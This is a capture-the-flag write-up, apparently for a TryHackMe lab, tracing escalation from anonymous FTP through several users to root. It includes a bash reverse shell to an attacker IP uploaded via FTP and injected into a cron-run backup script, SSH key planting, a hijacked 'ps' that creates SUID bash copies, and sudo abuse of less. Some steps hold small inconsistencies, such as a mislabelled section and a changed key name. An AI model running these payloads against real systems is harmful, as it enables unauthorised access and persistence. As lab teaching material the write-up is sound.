

# Linux Jump Challange - Writeup

Your objective is to escalate from **anonymous** access all the way through:

`recon_user` -> `dev_user` -> `monitor_user` -> `ops_user` -> `root`

The challange provides the following ip adress


```
10.113.144.90
```
--- 
## 1. Initial Reconaissaince


First we start with an nmap scan to identify which ports are **open**

`nmap -sV -sC -T5 10.113.144.90`

The scan reveals an FTP servie that aööpws anonmous authentication

Connect to the FTP server: `ftp 10.113.144.90` with the following credentials `anonymous:anonymous`

After logging in, list the available directories
```bash
ftp> ls
229 Entering Extended Passive Mode (|||43528|)
150 Here comes the directory listing.
drwxrwxrwx    2 115      123          4096 Aug 13 20:30 incoming
drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub


ftp> cd pub
ftp> get README.md
```

The README contains the following information: _All recon Jobs must be placed in incoming_.
This suggests that files uploaded to **incoming* are processed automatically by the system.*

--- 
## 2. Obtaining recon_user

## 2.1 Create a Reverse shell
Create a shell script on the attacking machine:
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.133.45/4444 0>&1
```
save it as revshell.sh
## 2.2 Start a Lister
A listener is required to receive the reverse shell.

I prefer to use **penelope** but **Netcat** also works

In one bash i use `penelope` and in the other one i put my shell in the incoming



## 2.3 Upload the Payload

Connect to the the FTP server

`ftp 10.113.144.90`

Navigate to the **incoming** directory

`ftp> cd incoming`

Upload the shell

`ftp> put revshell.sh`
The system automatically processes files placed in this directory

## 2.4  Optaining flag.txt

```bash
recon_user@tryhackme-2404:~$ ls
flag.txt  shell.sh
recon_user@tryhackme-2404:~$ id
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```
--- 
## 3. Obtaining dev_user

### 3.1 Process Enumeration with pspy

Install: https://github.com/dominicbreuker/pspy

**Start a temporary HTTP server on the attacking machine**

`python3 -m http.server 8000`


**From the target machine, download `pspy64`**

`wget http://192.168.133.45:8000/pspy64`

Make it executable

`chmod +x pspy64`

Run it

`./pspy64`

### 3.2 Discovering the Backup Job

While monitoring the system wit **`pspy`**, the following processes appear


```bash
/bin/bash /usr/local/bin/healthcheck 
/opt/dev/backup.sh 
```
The **`backup.sh`** script is particulary interesting.

Inspect the directory

`ls -la /opt/dev`

**`backup.sh`** is writable by our current user

### 3.1 Privilege Escaltion to dev_user

#### 3.1.1 Generate an SSH key
Instead of relying on a reverse shell, generate am SSH key pair on the attacking machine

`ssh-keygen -f jump_rsa -C "jump-dev"`

#### 3.1.2 Modify backup.sh
Edit the vulnerable script

`vim /opt/dev/backup.sh`
```bash
bash -i >& /dev/tcp/192.168.133.45/5556 0>&1

mkdir -p /home/dev_user/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUV0fKjrv3M00L5yxOYKaSY5RT2TseI1SZYGZaQaNFC Jump-dev" >> /home/dev_user/.ssh/authorized_keys
chmod 700 /home/dev_user/.ssh
chmod 600 /home/dev_user/.ssh/authorized_keys

touch /tmp/TestDev
```
#### 3.1.3 Connect as dev_user
Use the private SSH key:
`ssh -i jump_rsa dev_user@10.113.144.90`

After connect we can get the flag

`/bin/bash`

`cat flag.txt`

---

## 4. Obtaining dev_user

The next step is so identify scripts and binaries that are executed with a higher privileged user

Inspect `ls -la /usr/local/bin`
```bash
drwxr-xr-x  2 root         root         4096 Apr 29 10:35 .
drwxr-xr-x 10 root         root         4096 Oct 26  2020 ..
-rwxr-xr-x  1 ops_user     ops_user       55 Feb  2  2026 deploy.sh
-rwxr-xr-x  1 monitor_user monitor_user   98 Apr 29 10:35 healthcheck
```
the healthcheck script belongs to **`monitor_user`**

Inspect the script

`cat /usr/local/bin/healthcheck`

The script executes
```bash
cat healthcheck 
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```

Inspect the relevant directory

`ls -la /opt/dev/bin`

Our current user can modify ps

### 4.1 Create a malicious replacement for **ps**
`vim /opt/dev/bin/ps`
```bash
mkdir -p /home/monitor_user/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUV0fKjrv3M00L5yxOYKaSY5RT2TseI1SZYGZaQaNFC Jump-dev" >> /home/monitor_user/.ssh/authorized_keys
chmod 700 /home/monitor_user/.ssh
chmod 600 /home/monitor_user/.ssh/authorized_keys

cp /bin/bash /tmp/monitorbash
chmod 4755 /tmp/monitorbash

/usr/bin/ps "$@"
```

**/usr/bin/ps "$@"** is important your malicious script gets executed first

Make the malicious script executable
`chmod +x /opt/dev/bin/ps`

The improtant line is 
```
cp /bin/bash /tmp/monitorbash
chmod 4755 /tmp/monitorbash
```
This creates a copy of Bash with the SUID bit enabled.
The SUID bit causes the binary to execute with the privileges of its owner.


**/usr/bin/ps "$@"** is important your malicious script gets executed first


### 4.2 Connect as monitor_user
After the malicious ps script has been executed by the heaöthcheck process, coneect using SSH

`ssh -i dev_rsa monitor_user@10.113.144.90`

`/bin/bash`

Verify the user

`id`

Retrieve the flag 

`cat flag.txt`

---

## 5. Obtaining ops_user
Now enumerate the commands that **monitor_user** can execute with **sudo**

`sudo -l`

```txt
Matching Defaults entries for monitor_user on tryhackme-2404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=LESS

User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```
The important part is `(ops_user) NOPASSWD: /usr/local/bin/deploy.sh`

We can execute `deploy.sh` as `ops_user` without providing a password

### 5.1 Exploiting deploy.sh
Inspect the script:

`cat /usr/local/bin/deploy.sh`

Contents:
```bash
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```
The script executes **`deploy_helper.sh`**

modify **`deploy_helper.sh`**

`vim /opt/app/deploy_helper.sh`

```bash
mkdir -p /home/ops_user/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUV0fKjrv3M00L5yxOYKaSY5RT2TseI1SZYGZaQaNFC Jump-dev" >> /home/ops_user/.ssh/authorized_keys
chmod 700 /home/ops_user/.ssh
chmod 600 /home/ops_user/.ssh/authorized_keys

cp /bin/bash /tmp/opsbash
chmod 4755 /tmp/opsbash
```
### 5.2 Execute deploy.sh as ops_user
Run:
`sudo -u ops_user /usr/local/bin/deploy.sh`

### 5.3 Connect as ops_user
Use the SSH key:

`ssh -i dev_rsa ops_user@10.113.144.90`

`/bin/bash`

Verify the user:

`id`

Retrive the flag

`cat flag.txt`

---

## 6 Obtaining root
Enumerate the available sudo permissions
`sudo -l`

```
User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```
This means **ops_user** can execute **less** as root without entering a password

less is normally a pager used to display files. Also less can execute commands through its interactive command interface

Start **`less`** as root


`sudo -u root less /root/flag.txt`

This launches a shell with the privileges of the process running less.

Because less was started as root, the resulting shell is a root shell.